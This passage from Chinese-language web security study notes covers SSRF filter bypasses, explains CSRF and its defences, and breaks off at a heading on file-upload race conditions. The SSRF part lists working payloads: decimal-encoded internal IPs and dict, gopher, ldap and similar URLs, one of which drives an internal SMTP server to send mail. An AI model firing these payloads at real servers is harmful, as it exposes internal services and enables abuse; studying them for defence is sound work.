 ```
http://127.0.0.1  >>>  http://2130706433/
```

```
http://192.168.0.1  >>>  http://3232235521/
http://192.168.1.1  >>>  http://3232235777/
```

###### 11、利用特殊地址

```
http://0/
```

###### 12、利用协议

```
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

###### 13、使用组合

各种绕过进行自由组合即可

### csrf部分

#### 讲一下csrf原理

简单的说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己以前认证过的站点并运行一些操作（如发邮件，发消息，甚至财产操作（如转账和购买商品））。因为浏览器之前认证过，所以被访问的站点会认为这是真正的用户操作而去运行。



#### csrf的防御方法有哪些? referer验证和token那个安全级别高呢?

有三种方法被广泛用来防御CSRF攻击：验证token，验证HTTP请求的Referer，还有验证XMLHttpRequests里的自定义header。token安全等级更高，因为并不是任何服务器都可以取得referer，如果从HTTPS跳到HTTP，也不会发送referer。并且FLASH一些版本中可以自定义referer。但是token的话，要保证其足够随机且不可泄露。(不可预测性原则)

### 文件上传

#### 讲一下条件竞争的原理
